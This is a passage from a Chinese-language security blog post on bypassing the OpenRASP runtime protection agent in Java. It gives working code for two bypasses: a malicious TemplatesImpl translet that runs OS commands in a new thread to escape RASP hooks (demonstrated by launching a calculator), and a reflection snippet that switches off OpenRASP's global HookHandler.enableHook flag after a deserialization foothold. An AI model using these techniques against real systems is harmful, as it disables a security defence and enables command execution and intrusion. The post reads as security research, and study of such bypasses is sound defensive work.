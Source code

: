 但假如我们使用线程来执行命令
```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

import java.io.IOException;

public class BypassRasp extends AbstractTranslet implements Runnable{
    public BypassRasp(){
        new Thread(this).start();
    }

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
    
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }

    @Override
    public void run() {
        try {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c","gnome-calculator"} : new String[]{"cmd.exe", "/c", "calc"};
            Runtime.getRuntime().exec(cmds);
        }catch (IOException e){}
    }
}
```
![](https://img-blog.csdnimg.cn/aedd6c13fbfe40c4abdf496fda3d1c30.png)

可以看到成功执行命令，反弹计算器


#### 绕过方法二
假如存在反序列化漏洞，我们通常可以通过TemplatesImpl去加载任意字节码，那么就可以直接使用反射的方式，修改rasp的HookHandler类的变量enableHook设置为false，而这个变量是全局的开关，所以我们只需重新关闭这个开关就可以使rasp失效。实现全局绕过
![](https://img-blog.csdnimg.cn/a09712cbf90f4bcd913ae6291c15cece.png)

```java
Object o = Class.forName("com.baidu.openrasp.HookHandler").newInstance();
Field f = o.getClass().getDeclaredField("enableHook");
Field m = f.getClass().getDeclaredField("modifiers");
m.setAccessible(true);
m.setInt(f, f.getModifiers() & ~Modifier.FINAL);
f.set(o, new AtomicBoolean(false));
```
